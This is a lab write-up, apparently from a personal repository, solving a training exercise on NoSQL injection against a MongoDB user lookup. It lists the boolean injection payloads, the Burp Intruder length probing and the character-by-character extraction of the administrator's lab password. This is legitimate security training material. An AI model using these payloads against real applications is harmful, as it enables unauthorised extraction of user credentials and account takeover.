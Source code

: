 # Lab: Exploiting NoSQL injection to extract data
###  The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, extract the password for the administrator user, then log in to their account.

we have following credentials: 
```json
{   
    username: wiener,
    password:peter
}
```


### Detecting No SQL Injection works or not
I Started the Burpsuite proxy and intercepted the request for user administrator, I used ' payload and got the following:

![detecting No SQL Injection](../screenshots/detect.png)

Without payload we have:
![user fields](../screenshots/fields.png)

So we need to get the hidden password field

### Testing Payloads

'&&1=='1 -> It worked but i didn't got the password field

'&&username[0]=='a -> Got the error:
{
  "message": "There was an error getting user details"
}

Now I go to userole.js endpoint and their is this function:
```javascript
const appendFromUser = (user) => {
    const email = user.email;
    if (email) {
        document.querySelector("#user-details #user-email").textContent = email;
    }
```

So lets modify our payload...
-> '&&user.username[0]=='a -> Didn't worked...

-> lets try using this keyword:
'&&this.username[0]=='a -> This works...

So we will target the password field so lets get the password field using payload:
-> '&&user.password[0]=='a
![password field](../screenshots/passws1.png)

Now lets try getting the length of password and then bruteforce it

-> '&&user.password.length=='1

Now I sent the request the to Intruder and tried the Number payload from 1-20 and BOOM !!!, I got the length of password as 8 as all other gives response length 151 and error message except 8.

![password length cracked](../screenshots/length.png)

Now lets get the password by brutforcing each index from 0-7 of password filed
> payload-> administrator'&&this.password[0]=='a

![password cracked](../screenshots/passwd.png)

- password[0] -> f
- password[1] -> p
- password[2] -> k
- password[3] -> r
- password[4] -> b
- password[5] -> q
- password[6] -> h
- password[7] -> s

### Password = fpkrbqhs

# Lab 3 Solved !!!
![lab solved](../screenshots/solved3.png)

